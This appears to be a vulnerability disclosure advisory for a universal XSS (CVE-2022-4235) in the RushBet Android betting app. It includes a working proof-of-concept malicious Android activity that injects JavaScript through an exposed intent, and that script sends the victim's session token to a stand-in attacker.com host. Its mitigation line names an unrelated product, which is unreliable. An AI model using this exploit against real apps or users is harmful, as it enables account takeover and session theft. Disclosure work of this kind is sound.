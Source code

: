 ```yaml
---
slug: advisories/miller/
title: RushBet 2022.23.1-b490616d - Universal XSS
authors: Carlos Bello
writer: cbello
codename: miller
product: RushBet 2022.23.1-b490616d (UXSS)
date: 2022-11-30 10:00 COT
cveid: CVE-2022-4235
severity: 7.1
description: RushBet 2022.23.1-b490616d    -    Universal XSS (UXSS)
keywords: Fluid Attacks, Security, Vulnerabilities, Rushbet, UXSS
banner: advisories-bg
advise: yes
template: maskedAdvisory
encrypted: yes
---
```


## Summary

|                       |                                                                    |
| --------------------- | -------------------------------------------------------------------|
| **Name**              | RushBet 2022.23.1-b490616d - UXSS                                  |
| **Code name**         | [Miller](https://en.wikipedia.org/wiki/Mac_Miller)                 |
| **Product**           | RushBet                                                            |
| **Affected versions** | Version 2022.23.1-b490616d                                         |
| **State**             | Public                                                             |
| **Release date**      | 2022-11-30                                                         |

## Vulnerability

|                       |                                                                                                                             |
| --------------------- | ----------------------------------------------------------------------------------------------------------------------------|
| **Kind**              | Universal XSS                                                                                                               |
| **Rule**              | [000. Universal XSS (UXSS)](https://docs.fluidattacks.com/criteria/vulnerabilities/000)                                     |
| **Remote**            | Yes                                                                                                                         |
| **CVSSv3 Vector**     | CVSS:3.1/AV:N/AC:H/PR:L/UI:R/S:U/C:H/I:H/A:H                                                                                |
| **CVSSv3 Base Score** | 7.1                                                                                                                         |
| **Exploit available** | Yes                                                                                                                         |
| **CVE ID(s)**         | [CVE-2022-4235](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-4235)                                               |

## Description

RushBet version 2022.23.1-b490616d allows a remote attacker to steal
customer accounts via a malicious application. This is possible because
the application exposes an activity and does not properly validate the
data it receives.

## Vulnerability

This vulnerability occurs because the application exposes an activity
and does not properly validate the data it receives.

## Exploitation

To exploit this vulnerability, the victim must have a malicious
application installed with activity like the following:

### MainActivity.java

```java
package com.example.badapp;

import androidx.appcompat.app.AppCompatActivity;
import android.content.Intent;
import android.os.Handler;
import android.os.Bundle;
import android.net.Uri;

public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);

        Intent intent = new Intent("android.intent.action.VIEW");
        intent.setClassName("com.rush.co.rb","com.sugarhouse.casino.MainActivity");
        intent.setData(Uri.parse("https://rushbet.co/"));
        startActivity(intent);

        new Handler().postDelayed(() -> {
            intent.setAction("Action.EvaluateScript");
            intent.putExtra("KeyScript","fetch('https://attacker.com/sessionID/'+JSON.parse(sessionStorage.getItem('session-COP')).value);");
            startActivity(intent);
        }, 30000);
    }
}
```

Thus, when the victim opens the malicious app, the exploit will
be executed, thus hacking his account.

## Evidence of exploitation

![POC-Account-Takeover-Rushbet](https://user-images.githubusercontent.com/51862990/204822560-80c8fce0-82ec-4a23-bec5-9da689ffea4f.mp4)

![PII-Account-Takeover-Rushbet](https://user-images.githubusercontent.com/51862990/204819582-d5f0b34a-0ec4-4413-ac40-bc06affd3ed1.png)

## Our security policy

We have reserved the CVE-2022-4235 to refer to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: RushBet 2022.23.1-b490616d

* Operating System: GNU/Linux

## Mitigation

An updated version of Badaso is available at the vendor page.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from Fluid Attacks'
Offensive Team.

## References

**Vendor page** <https://www.rushbet.co>

## Timeline

<time-lapse
  discovered="2022-11-29"
  contacted="2022-11-30"
  replied="2022-11-30"
  confirmed=""
  patched=""
  disclosure="">
</time-lapse>
